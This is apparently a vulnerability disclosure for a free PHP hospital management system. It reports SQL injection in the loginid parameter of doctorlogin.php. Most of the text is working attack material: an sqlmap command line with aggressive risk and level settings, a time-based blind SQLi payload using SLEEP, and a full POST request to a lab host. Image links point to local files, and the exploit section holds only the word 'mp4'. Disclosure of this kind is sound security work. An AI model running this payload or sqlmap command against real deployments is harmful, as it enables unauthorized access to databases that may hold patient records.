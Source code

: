 **[Hospital-Management-System v1.0-SQLi-3](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![image-20220528215519439](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20220528215519439.png)

### Description:
---
The vulnerability page is ```doctorlogin.php```

```http://your-ip/hms/doctorlogin.php```


Hospital-Management-System v1.0  

The ```loginid``` parameter in the ```doctorlogin.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:


python sqlmap.py -r `Your post packet.txt` --random-agent --risk=3 --level=3 -dbs

[+] Payloads:

```
Parameter: loginid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: loginid=test' AND (SELECT 1110 FROM (SELECT(SLEEP(5)))pvXE) AND 'crsy'='crsy&password=test123&submit=Login
```

[+]POST request package

```
POST /hms/doctorlogin.php HTTP/1.1
Host: 192.168.74.136
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.74.136
Connection: close
Referer: http://192.168.74.136/hms/doctorlogin.php
Cookie: PHPSESSID=sbgmgg8q26ri1tmnqfv7poto25
Upgrade-Insecure-Requests: 1

loginid=test&password=test123&submit=Login
```
### In action:
---

![image-20220528215750668](C:\Users\lenovo\AppData\Roaming\Typora\typora-user-images\image-20220528215750668.png)

### Proof and Exploit:
---
mp4

